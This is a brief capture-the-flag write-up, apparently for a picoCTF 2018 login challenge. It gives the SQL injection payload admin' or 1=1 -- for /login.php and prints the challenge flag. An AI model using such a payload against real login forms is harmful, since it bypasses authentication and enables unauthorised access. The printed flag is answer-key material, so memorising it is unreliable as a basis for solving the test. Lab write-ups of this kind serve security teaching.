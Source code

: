 [Category:Picoctf](/Category:Picoctf "wikilink")

There is a website running at <http://2018shell.picoctf.com:59464>
(link). Do you think you can log us in? Try to see if you can login\!

goto /login.php

admin' or 1=1 --

Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}